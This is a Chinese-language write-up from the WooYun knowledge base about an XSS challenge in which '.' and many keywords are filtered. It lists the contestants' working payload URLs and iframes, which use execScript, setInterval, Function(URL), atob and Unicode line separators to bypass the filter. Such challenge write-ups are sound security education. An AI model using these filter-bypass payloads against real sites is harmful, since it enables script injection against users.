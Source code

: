 # XSS 挑战第二期 Writeup

2014/02/16 12:01 | [mramydnei](http://drops.wooyun.org/author/mramydnei "由 mramydnei 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 前言

* * *

之前搞了一期感觉反响挺好的，就又搞了一期。不过说实话审核起来很吃力，因为大家的答案都太给力了。所以在接下来的解释文当中如果出现错误，希望各位看官可以不吝指正。可能参与的人，都发现了这期的核心问题就是【没有了”.”我们应该如何去 XSS？】。如果有人有心去谷歌过这个问题，应该会在[`sla.ckers.org/forum/read.php?2,12964,12974`](http://sla.ckers.org/forum/read.php?2,12964,12974)这个链接里，找到答案。

```
with(location)with(hash)eval(substring(1))

```

作者在指定的代码区域内，使用 with 来实现了通过节点名称的对象调用。当然，如果问题只是这样的话，我相信大家会有很多的方案。所以为了增加点难度，我在上次的过滤规则上又过滤一些比较常用的手段。

## 0x01 设定

* * *

(1) 过滤了所有的

```
#  \ < vbscript > ' 空格+on alert innerHTML document appenChild createElement src write String eval setTimeout unescape data javascript name ; window * 空格 TAB 0x0A 0x0C 0x0D prompt confirm MsgBox find print - vbs  location / urldecode [ ] . 0x00  $ jQuery + 
```

(2)过滤了第二个

```
" 和 = 
```

可能有些规则和一般意义上的过滤代码有较大的出入，这个也是因为怕有人把这个游戏理解成廉价的 WAF 测试。>.<

## 0x02 结果

* * *

![enter image description here](img/img1_u53_png.jpg)

这次是上次挑战的第一名/fd 拿下了这次挑战的 First Blood。

```
<meta http-equiv="X-UA-Compatible" content="IE=9"> 
<iframe src=http://techni.duapp.com/challenge/index.php?xss=%22onblur=`execScript(URL)`#&#x2028;alert(1)></iframe>

```

这应该算是集合了很多 IE 特色的答案。用到了兼容模式，来让最新版的 IE 支持这个反引号的使用，提高了 XSS 代码的兼容性也避免了因后面语句的修复所带来的长度问题。还有就是这个 execScript 在我的理解当中应该是和 eval()拥有几乎相同的功能的一个 IE 特色方法。可能和 eval 最大的区别就是 execScript 的作用域非当前域，而是全局作用域吧。然后就是这个`#&#x2028;`可能一部分人不是特别熟悉，如果你有阅读过 ECMAscript 规范，那么你应该会发现除了`0x0A/0x0D`以外`U+2028/2029`也可以作为换行符来使用。

来自/fd 的另一份答案：

```
<meta http-equiv="X-UA-Compatible" content="IE=9"> 
<iframe src=http://techni.duapp.com/challenge/index.php?xss=%22onblur=execScript(URL)%0b#&#x2028;alert(1)></iframe>

```

放弃了使用反引号，而使用 0x0b 进一步的缩减了一个字符。

来自 Sogili 的答案：

```
<iframe src="http://techni.duapp.com/challenge/index.php?xss=%22oncut=setInterval(URL)%%26quot#&#8232;alert(1)"></iframe>

<iframe src="http://techni.duapp.com/challenge/index.php?xss=%22oncut=`setInterval(URL)`#&#8232;alert(1)"></iframe>

<iframe src="http://techni.duapp.com/challenge/index.php?xss=%22oncut%3D%60Function%28URL%29%28%29%60#&#x2028;alert(1)"></iframe>

```

Sogili 在第一个答案中选择了使用%+&quot 的方式保证了后面语句的正确性。当然如果没有特殊限制，还有一些其它的逻辑运算符可以起到相同的作用（加减乘除和一些其它的符号）。然后就是这个 setIterval 函数，总体来说可能和 setTimeout 会有点相似。大的区别就在于 eval 会在指定的时间过后执行一次相对应的字符串的内容。而 setIterval 会在每经过设定的时间后都执行一次相对应的字符串。和/fd 不同的是选择了`&#8232`来代替空白字符，最后巧妙地使用 Function(URL)()（新建匿名函数并执行它的方式）完成了挑战。（看了几次没看懂，最后请教了一下二哥= =）

来自 gainover 的答案：

```
<script>
    location.href='http://techni.duapp.com/challenge/index.php?xss="onblur=Function(URL)()%%26quot#\u2028alert(1)';
    </script>

<script>
    location.href='http://techni.duapp.com/challenge/index.php?xss="oncut=Function(URL)%%26quot#\u20281},alert(1),{';
    </script> //测试于 chrome26

```

和 Sogili 的最后一个答案大相径庭。

来自 Retaker 非常水的答案：

```
http://techni.duapp.com/challenge/index.php?xss=%22oncut%3DsetInterval%28value%29%2C%26quot 
```

有人说这个和自己在地址栏输入`javascript:alert(1)`也差不多了。其实包括提交者和我也这么认为。但是因为参与的人实在太少了，就算上了。不过有另外一个同学很巧秒的利用了这个 value。

来自 8qwe24657913 的答案：

```
http://techni.duapp.com/challenge/index.php?xss=YWxlcnQoKzEp%22oncut%3Dnew%28Function%29%28atob%28value%29%29%28%29%2C%26quot

http://techni.duapp.com/challenge/index.php?xss=al%2565rt%283%265%29%22oncut%3Dnew%28Function%29%28decodeURI%28value%29%29%28%29%2C%26quot)

http://techni.duapp.com/challenge/index.php?xss=YWxlcnQoKzEp%22oncut%3DsetInterval%28atob%28value%29%29%2C%26quot

http://techni.duapp.com/challenge/index.php?xss=YWxlcnQoMSk%22oncut%3DsetInterval%28atob%28value%29%29%2C%26quot

<iframe src="http://techni.duapp.com/challenge/index.php?xss=%22oncut=execScript(opener),%26quot" onload="contentWindow.opener='alert(1)'"></iframe> //

http://techni.duapp.com/challenge/index.php?xss=%22oncut=with(URL)execScript(slice(96)),%26quot#alert(1)

http://techni.duapp.com/challenge/index.php?xss=%22oncut=with(URL)setInterval(slice(97)),%26quot#alert(1)

http://techni.duapp.com/challenge/index.php?xss=%22oncut=with(URL)with(top)open(slice(0x65)),%26quot#javascript:opener.alert(1)

http://techni.duapp.com/challenge/index.php?xss=afterEnd%22oncut%3DinsertAdjacentHTML%28value%2CURL%29%2C%26quot#<img/src=1 onerror=alert(1)> 

http://techni.duapp.com/challenge/index.php?xss=%22oncut=with(URL)with(top)open(slice(0x65)),%26quot#javascript:opener.alert(1)

http://techni.duapp.com/challenge/index.php?xss=al%2565rt%283%265%29%22oncut%3DsetInterval%28decodeURI%28value%29%29%2C%26quot

http://techni.duapp.com/challenge/index.php?xss=al0ert%283%265%29%22oncut%3Dwith%28value%29setInterval%28replace%280%2Cid%29%29%2C%26quot

http://techni.duapp.com/challenge/index.php?xss=oncutYWxlcnQoMSk%22oncut%3Dwith%28value%29setAttribute%28slice%280%2C5%29%2Catob%28slice%285%29%29%2C%26quot 
```

其中的一个答案用到了一个很老的 IE Opener BUG。还有一个小亮点就是，多处用到了 xss 攻击中出场率不是很高的 base64 解码函数 atob()。由于提交的答案实在是太多，我就不一一解释了，感兴趣的同学可以自己亲手试一下。

来自 StarMoon 的答案：

```
http://techni.duapp.com/challenge/index.php?xss=%22oncut=with(URL)execScript(slice(98))%25%26quot#alert(1) 
```

很中规中矩的答案，用 with 避免了”.”的使用，通过 execScript 来执行 URL.slice(98)也就是#后面的 alert(1)。

来自 Dun 的答案：

```
http://techni.duapp.com/challenge/index.php?xss="oncut%3DsetInterval%28decodeURI%28%26quot%2520aler%2574%28%29%26quot%29%29%7C%26quot 
```

结合 setInterval 和 decodeURI 执行了部分二次 URL 编码后的 alert(),最后再用`|&quot`修复了后面语句的正确性，完成了挑战。

## 0x03 写在最后

* * *

因为个人水平有限，可能挑战的内容做的不是很好。和实际场景相比有一些出入。如果你觉得这些答案都很有趣并想对上面的方法进行测试，可能需要你付出一点点的耐心。因为，所使用的浏览器的不同，版本的不同，系统补丁的不同等缘故可能会有无法重现的情况发生。

附上此次比赛的源代码：[XSSC2.zip](http://static.wooyun.org/20141017/2014101714085323964.zip)

版权声明：未经授权禁止转载 [mramydnei](http://drops.wooyun.org/author/mramydnei "由 mramydnei 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Shell Injection & Command Injection](http://drops.wooyun.org/papers/1018)
*   [Python Pickle 反序列化带来的安全问题](http://drops.wooyun.org/papers/66)
*   [一些你可能不知道的 Flash XSS 技巧](http://drops.wooyun.org/papers/948)
*   [WordPress 3.5.1 远程代码执行 EXP](http://drops.wooyun.org/papers/785)
*   [一种自动化检测 Flash 中 XSS 方法的探讨](http://drops.wooyun.org/tips/1985)
*   [DedeCMS 最新通杀注入(buy_action.php)漏洞分析](http://drops.wooyun.org/papers/979)